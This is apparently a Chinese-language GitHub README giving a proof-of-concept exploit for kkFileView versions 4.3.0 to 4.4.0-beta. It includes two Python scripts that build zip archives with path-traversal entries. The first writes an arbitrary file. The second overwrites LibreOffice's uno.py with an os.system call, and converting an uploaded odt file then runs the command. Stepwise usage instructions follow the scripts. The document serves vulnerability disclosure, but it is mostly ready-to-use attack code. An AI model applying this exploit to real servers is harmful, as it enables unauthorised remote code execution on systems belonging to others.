

# kkFileView-v4.3.0-RCE-POC

## v4.3.0~v4.4.0-beta

https://github.com/kekingcn/kkFileView/releases/tag/v4.3.0

此版本为官方源代码最新版

### 环境部署

本地源码启动或者docker部署

-20240415195822360.(null))

### 任意文件上传

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意`hack.zip`，注意里面必须有一个正常文件，例如`test`，便于创建`hack.zip_`缓存文件

-20240415195822385-3182302.(null))

上传文件并预览

-20240415195822385.(null))

-20240415195822430.(null))

发现成功穿越

### RCE

可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意的zip包 上传并预览

-20240415195822638.(null))

再随便上传一个odt文件，另其发起libreoffice任务 上传并预览

-20240415195822411.(null))

可以看到命令成功被执行



uno.py中也确实被写入了内容

-20240415195822672.(null))
